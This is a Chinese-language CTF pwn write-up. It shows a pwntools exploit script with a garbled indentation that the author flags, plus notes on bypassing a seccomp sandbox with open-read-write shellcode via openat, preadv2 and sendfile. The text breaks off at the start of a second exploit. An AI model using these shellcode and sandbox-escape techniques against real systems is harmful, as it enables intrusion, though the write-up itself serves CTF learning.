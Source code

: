 ```python

for i in range(10):
	# 这里复制过来的在markdown里看着有问题，下面这个recvuntil应该是在for里面和payload同级
	      p.recvuntil(b'\xe3\x82\x8f\xe3\x81\x9f\xe3\x81\x97\xe3\x80\x81\xe6\xb0\x97\xe3\x81\xab\xe3\x81\xaa\xe3\x82\x8a\xe3\x81\xbe\xe3\x81\x99\xef\xbc\x81')

    payload = '-'

    p.sendline(payload)

p.recvuntil(b'\xe3\x82\x8f\xe3\x81\x9f\xe3\x81\x97\xe3\x80\x81\xe6\xb0\x97\xe3\x81\xab\xe3\x81\xaa\xe3\x82\x8a\xe3\x81\xbe\xe3\x81\x99\xef\xbc\x81')
payload = '4199009'
p.sendline(payload)
p.recvuntil(b'\xe3\x82\x8f\xe3\x81\x9f\xe3\x81\x97\xe3\x80\x81\xe6\xb0\x97\xe3\x81\xab\xe3\x81\xaa\xe3\x82\x8a\xe3\x81\xbe\xe3\x81\x99\xef\xbc\x81')
payload = '0'
p.sendline(payload)

for i in range(4):
	# 这里显示也是有问题，下面这个recvuntil在for里面
    p.recvuntil(b'\xe3\x82\x8f\xe3\x81\x9f\xe3\x81\x97\xe3\x80\x81\xe6\xb0\x97\xe3\x81\xab\xe3\x81\xaa\xe3\x82\x8a\xe3\x81\xbe\xe3\x81\x99\xef\xbc\x81')
    payload = '1'
    p.sendline(payload)

p.interactive()
```
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013115334.png)
### Easy_Shellcode(复现)
虽然这题没做出来，但感觉我的思路应该没错，应该是构造shellcode的水平实在不行。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013115859.png)
可以看到仅打开了NX保护
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013115938.png)
进入主函数可以看到有sandbox，利用seccomp-tools工具查看
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013120103.png)
可以看到这个sandbox限制了除调用编号为257和327以外的其他所有调用函数的使用，这俩调用编号对应的函数是openat和preadv2。然后我们发现我们拥有0xd000000段的所有权限并且构造的shellcode会被放入0xd000721处并被执行，由于execve等被禁止调用，所以这里我们采用orw的方法来获取shell。
orw指的是open,read和write，有由于sandbox限制了一些系统调用，但一般都会有这三个或这三个中的几个，所以我们可以使用open函数直接打开flag文件，用read函数将其读入到栈上或内存空间中，然后使用write函数再打印出来，从而获取flag
但这道题中很显然我们只有or没有w，那么我们就只能用爆破的方法一位一位爆破flag的值，也就是侧信道爆破的方法，将flag的值爆破出来。
在实际操作的过程中遇到的问题是我构造的shellcode并不能将我自己构造的flag读入到指定的位置上，并未能解决
#### 复现部分
上面的大致思路没有错，只是本题只是禁止了`write`，还有`writev`，`sendfile`这两可以用，不需要采用侧信道爆破的方法来做。
以及本题需要手动恢复`rsp`寄存器，恢复之后就可以用`shellcraft`来构造，不用苦哈哈的自己写还写不对。
exp:
```python
from pwn import *
import pwnlib.gdb
import pwnlib.shellcraft

context(arch='amd64', os='linux', log_level='debug')
local = True
if local:
    p = process('./ez_shellcode')
else:
    p = remote('node3.buuoj.cn', 28435)

rsp = '''
    mov rsp, 0x4040c0
```